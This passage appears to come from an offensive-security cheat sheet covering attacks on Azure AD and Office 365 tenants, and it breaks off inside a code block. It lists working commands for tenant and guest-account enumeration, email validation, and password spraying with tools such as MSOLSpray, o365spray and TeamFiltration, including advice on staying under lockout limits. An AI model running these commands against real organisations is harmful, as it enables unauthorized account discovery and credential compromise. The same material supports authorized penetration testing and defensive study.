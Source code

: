 ### Enumerate Tenant Informations

* Federation with Azure AD or O365
    ```powershell
    Get-AADIntLoginInformation -UserName <USER>@<TENANT NAME>.onmicrosoft.com
    https://login.microsoftonline.com/getuserrealm.srf?login=<USER>@<DOMAIN>&xml=1
    https://login.microsoftonline.com/getuserrealm.srf?login=root@<TENANT NAME>.onmicrosoft.com&xml=1
    ```
* Get the Tenant ID
    ```powershell
    Get-AADIntTenantID -Domain <TENANT NAME>.onmicrosoft.com
    https://login.microsoftonline.com/<DOMAIN>/.well-known/openid-configuration
    https://login.microsoftonline.com/<TENANT NAME>.onmicrosoft.com/.well-known/openid-configuration
    ```


### Enumerate from a Guest Account

```ps1
powerpwn recon --tenant {tenantId} --cache-path {path}
powerpwn dump -tenant {tenantId} --cache-path {path}
powerpwn gui --cache-path {path}
```


### Enumerate Emails

> By default, O365 has a lockout policy of 10 tries, and it will lock out an account for one (1) minute.

* Validate email 
    ```powershell
    PS> C:\Python27\python.exe C:\Tools\o365creeper\o365creeper.py -f C:\Tools\emails.txt -o C:\Tools\validemails.txt
    admin@<TENANT NAME>.onmicrosoft.com   - VALID
    root@<TENANT NAME>.onmicrosoft.com    - INVALID
    test@<TENANT NAME>.onmicrosoft.com    - VALID
    contact@<TENANT NAME>.onmicrosoft.com - INVALID
    ```
* Extract email lists with a valid credentials : https://github.com/nyxgeek/o365recon
    ```powershell
    Install-Module MSOnline
    Install-Module AzureAD
    .\o365recon.ps1 -azure
    ```


### Password Spraying

The default lockout policy tolerates 10 failed attempts, then lock out an account for 60 seconds.

* [dafthack/MSOLSpray](https://github.com/dafthack/MSOLSpray)
    ```powershell
    PS> . C:\Tools\MSOLSpray\MSOLSpray.ps1
    PS> Invoke-MSOLSpray -UserList C:\Tools\validemails.txt -Password <PASSWORD> -Verbose
    PS> Invoke-MSOLSpray -UserList .\userlist.txt -Password Winter2020
    PS> Invoke-MSOLSpray -UserList .\users.txt -Password d0ntSprayme!
    ```
* [0xZDH/o365spray](https://github.com/0xZDH/o365spray)
    ```powershell
    o365spray --spray -U usernames.txt -P passwords.txt --count 2 --lockout 5 --domain test.com
    ```
* [Flangvik/TeamFiltration](https://github.com/Flangvik/TeamFiltration) 
    ```powershell
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --spray --sleep-min 120 --sleep-max 200 --push --shuffle-users --shuffle-regions